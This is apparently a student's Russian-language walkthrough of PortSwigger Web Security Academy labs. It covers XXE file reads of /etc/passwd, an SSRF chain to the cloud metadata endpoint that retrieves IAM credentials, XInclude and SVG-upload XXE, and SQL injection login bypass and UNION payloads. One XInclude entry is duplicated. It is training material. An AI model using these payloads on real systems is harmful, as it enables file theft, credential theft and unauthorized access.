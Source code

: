 1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

____

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

6)заменить product id на `&res`; отправить запрос, 

7)в ответе придет latest - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

n+1)в итоге получаем 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

6)в ответ придёт /etc/passwd


____

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack
те же действия, что и в 1. до пункта 4) 
5) в product id вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
``` 
в ответ придёт /etc/passwd

____

4.https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

1) 2) выбрать статью 

3)нажать отправить комментариq(заполнить все поля предварительно) 

4)перехватить запрос через Burp

5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)

____

1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

1)в графе login ввести administrator'--

____

2. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

3)второй столбец оказался верным - выводится результат